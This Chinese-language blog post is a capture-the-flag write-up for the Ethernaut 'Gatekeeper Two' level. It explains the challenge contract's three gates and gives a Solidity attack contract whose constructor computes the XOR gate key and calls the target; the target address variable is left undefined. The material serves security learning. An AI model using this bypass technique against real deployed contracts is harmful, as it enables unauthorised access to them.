 ```yaml
---
layout: post
title: Gatekeeper two
tags: [ethernaut]
---
```


# Gatekeeper two
assembly的用法等
```solidity
pragma solidity ^0.4.18;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### 代码分析
1. gateOne：和Gatekeeper one一样
2. gateTwo：extcodesize(caller)可以返回调用者地址的code size大小；gateTwo需要调用者地址没有存储代码，这
看起来似乎和gateOne有点矛盾，但在攻击合约的构造函数中调用该合约时，因攻击合约交易还未完成，没有打包进块，所以
excodesize返回的值为0；
3. gateThree：保证可以满足公式，因为`keccak256(msg.sender)`中对msg.sender进行了hash计算，又因为gateOne
和gateTwo，msg.sender为攻击合约，且攻击合约的地址不能确定（因为调用必须在构造函数中进行），所以需要将该逻辑在
构造函数中执行一遍

### 攻击合约
```solidity
pragma solidity ^0.4.18;

contract Test {
    function Test() {
        uint64 a = keccak256(this);
        uint64 b = uint64(0) - 1;
        uint64 c = b - a; // c ^ a = b // b = 0xffffffffffffffff
        send(bytes8(c));
    }
    
    function send(bytes8 key) {
        addr.call(bytes4(keccak256("enter(bytes8)")), key);
    }
}
```

### 攻击方法
1. 部署攻击合约，合约构造时自动攻击。